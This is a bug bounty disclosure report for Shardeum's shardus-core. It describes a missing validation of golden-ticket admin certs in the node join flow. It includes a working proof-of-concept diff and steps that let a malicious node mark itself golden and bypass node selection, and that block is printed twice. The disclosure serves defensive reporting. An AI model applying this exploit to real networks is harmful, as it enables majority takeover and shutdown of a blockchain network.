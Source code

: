 
# Failure to validate golden ticket admin cert 

Submitted on Jul 26th 2024 at 22:15:30 UTC by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33696

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)
- Taking over majority of the network by single authority
- Modification of transaction fees outside of design parameters

## Description
# Description
Failure to validate golden ticket admin cert leading to malicious node be able mark themselves golden to get into network bypassing selection algorithm altogether.

# Proof of Concept
- Launch a legit shardeum network and enable all logs, that way you can verify the malicious node get into the network by golden ticket by checking legit node's logs.  (Logs are not necessary for attack to work it's only for your own benefit to verify the attack work)

- Apply the patch to shardus/core. This will be malicious node.

```
diff --git a/src/p2p/Join/index.ts b/src/p2p/Join/index.ts
index 17d1d18d..ff60e099 100644
--- a/src/p2p/Join/index.ts
+++ b/src/p2p/Join/index.ts
@@ -785,6 +785,9 @@ export async function createJoinRequest(
       return
     }
   }
+
+  joinReq['appJoinData'].adminCert = {};
+  joinReq['appJoinData'].adminCert.goldenTicket = true;
   const signedJoinReq = crypto.sign(joinReq)
   if (logFlags.p2pNonFatal) info(`Join request created... Join request: ${Utils.safeStringify(signedJoinReq)}`)
   return signedJoinReq
@@ -1575,4 +1578,4 @@ export function nodeListFromStates(states: P2P.P2PTypes.NodeStatus[]): P2P.NodeL
   export function error(...msg: string[]): void {
     const entry = `Join: ${msg.join(' ')}`
     p2pLogger.error(entry)
-  }
\ No newline at end of file
+  }
```
- this patch make the malicious node mark itself as golden ticket node
- build and link it to your malicious shardeum node
- launch your malicious node
- it'll bypass the selection algorithm and will get in to the network at the next cycle
- If you enable logs in earlier step you can verify this by going into the logs of the legit nodes.
- Please use appropriate log settings to confirm if you need more info.

## Impact
This vulnerability allows malicious agent to launch army of node and effectively take over the network. >51%.

## The reason why it happen
- In shardus/core node were not properly validating the golden ticket admin cert. It was just checking if it's present or not. It should have checked if it's valid or not. [see the code](https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Join/v2/select.ts#L103-L111)



# Proof of Concept
- Launch a legit shardeum network and enable all logs, that way you can verify the malicious node get into the network by golden ticket by checking legit node's logs.  (Logs are not necessary for attack to work it's only for your own benefit to verify the attack work)

- Apply the patch to shardus/core. This will be malicious node.

```
diff --git a/src/p2p/Join/index.ts b/src/p2p/Join/index.ts
index 17d1d18d..ff60e099 100644
--- a/src/p2p/Join/index.ts
+++ b/src/p2p/Join/index.ts
@@ -785,6 +785,9 @@ export async function createJoinRequest(
       return
     }
   }
+
+  joinReq['appJoinData'].adminCert = {};
+  joinReq['appJoinData'].adminCert.goldenTicket = true;
   const signedJoinReq = crypto.sign(joinReq)
   if (logFlags.p2pNonFatal) info(`Join request created... Join request: ${Utils.safeStringify(signedJoinReq)}`)
   return signedJoinReq
@@ -1575,4 +1578,4 @@ export function nodeListFromStates(states: P2P.P2PTypes.NodeStatus[]): P2P.NodeL
   export function error(...msg: string[]): void {
     const entry = `Join: ${msg.join(' ')}`
     p2pLogger.error(entry)
-  }
\ No newline at end of file
+  }
```
- this patch make the malicious node mark itself as golden ticket node
- build and link it to your malicious shardeum node
- launch your malicious node
- it'll bypass the selection algorithm and will get in to the network at the next cycle
- If you enable logs in earlier step you can verify this by going into the logs of the legit nodes.
- Please use appropriate log settings to confirm if you need more info.
